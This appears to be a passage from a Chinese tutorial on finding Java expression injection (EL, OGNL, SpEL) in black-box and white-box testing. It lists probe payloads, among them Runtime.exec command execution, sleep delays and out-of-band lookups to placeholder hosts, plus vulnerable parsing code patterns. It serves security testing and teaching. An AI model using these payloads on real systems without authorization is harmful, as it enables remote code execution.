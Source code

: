 > ## 二、黑盒视角：如何发现表达式注入漏洞？
>
> 黑盒测试中，你**没有源码**，只能通过请求/响应来判断是否存在漏洞。
>
> ### ✅ 存在漏洞的典型迹象
>
> | 现象                    | 说明                                                         |
> | ----------------------- | ------------------------------------------------------------ |
> | 1. 输入被“计算”或“解析” | 输入 `1+1` 返回 `2`，说明后端可能在执行表达式                |
> | 2. 支持特殊语法         | 输入 `${1+1}`、`%{1+1}`、`#{1+1}` 返回 `2`，可能是 EL/OGNL/SpEL |
> | 3. 返回 Java 对象信息   | 输入 `@java.lang.System@getProperty('os.name')` 返回操作系统名 |
> | 4. 延迟响应             | 输入 `T(java.lang.Thread).sleep(5000)` 导致响应延迟 5 秒     |
> | 5. 外带行为             | 输入 `T(java.net.URL).new('http://your-server.com')` 触发 DNS 或 HTTP 请求 |
>
> ### 🔍 黑盒测试常用 Payload（探测用）
>
> | 类型                    | 示例 Payload                                                 |
> | ----------------------- | ------------------------------------------------------------ |
> | **基础表达式**          | `${1+1}`、`#{2*3}`、`%{3-1}`                                 |
> | **Java 类调用**         | `@java.lang.System@currentTimeMillis()`                      |
> | **静态方法调用**        | `T(java.lang.Math).random()`                                 |
> | **命令执行（Windows）** | `T(java.lang.Runtime).getRuntime().exec('calc')`             |
> | **命令执行（Linux）**   | `T(java.lang.Runtime).getRuntime().exec('touch /tmp/pwned')` |
> | **延迟测试**            | `T(java.lang.Thread).sleep(5000)`                            |
> | **外带测试**            | `T(java.net.InetAddress).getByName('test.xxxx.dnslog.cn')`   |
>
> > 📌 使用 [DNSLog](https://dnslog.cn) 或 [Burp Collaborator](https://portswigger.net/burp) 检测外带行为，确认盲注入。
>
> ---
>
> ### ✅ 黑盒下漏洞存在的典型场景
>
> | 场景                                                         | 说明                                            |
> | ------------------------------------------------------------ | ----------------------------------------------- |
> | 1. 参数用于模板渲染                                          | 如：`/welcome?name=${user}`，后端使用 SpEL 渲染 |
> | 2. 动态规则引擎接口                                          | 如：`/rule/evaluate?expr=...`，用于计算风控规则 |
> | 3. 表单校验表达式                                            | 某些框架允许用表达式定义校验逻辑                |
> | 4. 文件名/路径拼接使用表达式                                 | 如：`download?file=#{user.home}/doc.txt`        |
> | 5. 使用了 Struts2、Spring Data REST、Spring Cloud Function 等组件 | 历史上有多个表达式注入 CVE                      |
>
> ---
>
> ## 三、白盒视角：如何从代码判断漏洞存在？
>
> 白盒测试中，你有源码或字节码，可以直接分析是否存在风险代码。
>
> ### ✅ 漏洞存在的代码特征（危险模式）
>
> | 风险点                             | 示例代码                                                     | 风险等级                   |
> | ---------------------------------- | ------------------------------------------------------------ | -------------------------- |
> | 1. 直接解析用户输入                | `parser.parseExpression(request.getParameter("expr"))`       | ⚠️ 高危                     |
> | 2. 使用 SpEL 且无过滤              | `new SpelExpressionParser().parseExpression(input).getValue()` | ⚠️ 高危                     |
> | 3. 使用 OGNL 且信任输入            | `Ognl.getValue(input, context, root)`                        | ⚠️ 高危                     |
